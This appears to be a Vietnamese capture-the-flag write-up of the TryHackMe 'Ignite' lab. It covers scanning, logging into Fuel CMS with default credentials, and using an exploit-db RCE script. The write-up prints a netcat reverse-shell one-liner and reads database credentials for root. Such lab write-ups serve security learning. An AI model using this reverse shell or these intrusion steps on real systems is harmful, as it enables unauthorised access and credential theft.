 # Ignite

## Performing reconnaissance

Dùng nmap để scan tất cả các port đang hoạt động: 

```nmap -vv -T4 -p- -Pn <THM ip address>```

Mình thấy có port 80 đang mở. Mình thử scan chi tiết port này 

![alt text](image.png)

Từ đây mình biết được server chạy apache httpd 2.4.18 trên OS ubuntu

Sau khi scan các port xong mình dùng dirsearch để tìm các đường dẫn ẩn và mình tìm được /robots.txt

```python3 dirsearch.py -u "10.10.156.237" -e "*" ```

![alt text](image-1.png)

Chúng ta tìm được đường đẫn tới /fuel/ với trang login mình thử với username:password với admin:admin thì vào được trang web

Mình thử search gg thì biết đây là một dạng db cho phép lưu trữ, quản lý files, video, text, ....

Mình thử dùng searchsploit để tìm các vuln liên quan đến db này 

![alt text](image-2.png)

Mình thấy bài này dính RCE

## Exploit

Mình tìm được payload từ trang web này https://www.exploit-db.com rồi tìm fuel CMS. Nhưng chưa dùng được luôn.

Vì đoạn code chúng ta tìm được ở đoạn code trên ở python2 và các địa chỉ khác nên chúng ta thay đổi một số thông tin như trong file exploit.py

Sau khi execute đoạn code ta đã có thể RCE được webserver. Tạo một reverse shell bằng bash

```cmd:"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip của mình> <port mở> >/tmp/f"```

Mở công 8080 bằng netcat ```nc -nlvp 8080```
Ở đây mình vào /home/www-data để đọc flag

### privilege encapsulation

Mới đầu mình thử priv từ sudo rights. Mình thử dùng ```find / -perm -u=s -type f 2>/dev/null``` để tìm các ứng dụng có SUID nhưng không có gì nên bỏ qua
Sau một lúc tra cứu kết hợp với wu thì mình thấy rằng tất cả các thay đổi sẽ được lưu trong file /fuel/application/config/database.php 

![alt text](image-3.png)

mình thử cat file này thì lấy được flag của của root. Login và lấy flag thôi







